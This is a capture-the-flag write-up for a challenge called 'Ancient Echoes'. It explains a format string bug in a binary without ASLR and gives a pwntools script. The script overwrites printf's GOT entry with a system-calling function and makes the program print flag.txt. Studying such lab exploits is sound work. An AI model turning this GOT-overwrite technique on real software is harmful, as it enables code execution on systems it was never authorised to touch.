



# Ancient Echoes - writeup
## Overview

\
After opening the file in IDA we can immediately see the vulnerability which is the format string vulnerability. \
 \
For this binary there is no aslr, so the code will always be at the same address. Relro is set as Partial, so we will be able to overwrite GOT. \

\
We can also find that there is a wild_magic function that is not used anywhere, which calls the system with the given command.

## Exploitation
Since we have the printf function twice thanks to which we are able to overwrite the data in goty, we need to create such a payload that simultaneously overwrites the printf addres in goty to the function that executes system and reads the flag from the server.
This will work because the argument of the system function will then become our payload.\nThe
code:
```python
from pwn import process, fmtstr, ELF, context, args

context.binary = ELF(args.EXE or './chall')
io = process("./chall")
printf_got = 0x404038
admin_debug = 0x40121D

writes = {printf_got: admin_debug}

# payload = b"/bin/bash &&    "
payload = b"cat flag.txt && "
payload += fmtstr.fmtstr_payload(8, writes, numbwritten=len(payload), write_size="byte")

io.sendafter(b'!', payload)
io.interactive()
```
